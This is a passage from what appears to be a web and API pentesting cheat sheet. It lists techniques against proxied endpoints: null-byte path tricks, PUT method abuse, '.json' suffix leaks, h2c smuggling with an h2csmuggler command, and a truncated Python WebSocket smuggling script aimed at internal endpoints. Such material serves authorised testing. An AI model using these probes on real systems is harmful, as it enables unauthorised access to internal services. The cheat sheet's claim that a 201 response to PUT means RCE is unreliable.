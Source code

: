 e.g. `https://www.company.com/api/..%00/`

### Using OPTIONS Method for endpoint discovery

* Using `OPTIONS` Method to identify other endpoints

{% embed url="https://x.com/intigriti/status/1070662964447981568" %}

### Check PUT Method

* Try To **Change Request Method** To `PUT` If You Got `201 Created` Then There Is `RCE`

```http
PUT /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path
Origin: https://www.company.com

// references
https://www.hackingarticles.in/multiple-ways-to-exploiting-put-method/
https://www.arridae.com/blogs/HTTP-PUT-method.php
https://asfiyashaikh.medium.com/exploiting-put-method-d2d0cd7ba662

```

* Try To Append `.json` Extension To Your Endpoints `e.g. /endpoint-To-Proxy.json` To Get Sensitive Information -> [Tweet](https://x.com/intigriti/status/1177178910397796353)

{% embed url="https://x.com/intigriti/status/1177178910397796353" fullWidth="false" %}

### Smuggling via HTTP/2 Cleartext

* Try To Figure Out Are There Endpoints Accept Establishing HTTP/2 Cleartext , If Yes Try To Smuggler It By Using Tool e.g. [h2csmuggler](https://github.com/BishopFox/h2csmuggler)&#x20;

{% embed url="https://bishopfox.com/blog/h2c-smuggling-request" %}

```bash
Steps to produce :- 
1 - Collect All The Endpoints 
2 - Put It In File Called e.g. url.txt 
3 - Open Your Terminal 
4 - Write This Command python3 h2csmuggler.py --scan-list url.txt --threads 5
```

### Smuggling WebSockets

* Smuggler Websocket Endpoints

{% embed url="https://speakerdeck.com/0ang3el/whats-wrong-with-websocket-apis-unveiling-vulnerabilities-in-websocket-apis?slide=36" %}

{% embed url="https://www.youtube.com/watch?v=gANzRo7UHt8" %}

```python
import socket
req1 = '''GET /ُEndpoint-To-Proxy/ HTTP/1.1
Host: company.com
Sec-WebSocket-Version: 1337
Upgrade: websocket
'''.replace('\n', '\r\n')
req2 = '''GET /Internal-Endpoint HTTP/1.1
Host: localhost:PORT
'''.replace('\n', '\r\n')
def main(netloc):
    host, port = netloc.split(':')
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, int(port)))
```